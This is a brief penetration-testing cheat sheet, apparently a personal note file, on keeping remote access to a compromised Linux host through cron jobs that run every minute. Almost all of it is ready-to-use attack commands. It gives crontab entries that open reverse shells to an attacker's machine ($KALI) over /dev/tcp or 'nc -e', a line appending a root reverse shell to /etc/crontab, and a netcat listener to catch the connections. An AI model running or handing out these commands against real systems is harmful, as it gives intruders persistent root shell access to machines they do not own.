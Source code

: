 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Cronjob every 1 min
```bash - target
crontab -e
* * * * * 0<&196;exec 196<>/dev/tcp/$KALI/443; sh <&196 >&196 2>&196
```

```bash - target
* * * * * nc -e /bin/sh $KALI 443
```

```bash - target
echo "*  *  *  *  * root nc $KALI 443 -e /usr/bin/bash" >> /etc/crontab
```

Listener

```bash - target
nc -lvp 443
```

Sometimes you have to set the user

```bash - target
crontab -e
*/10 * * * * pelle /path/to/binary
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
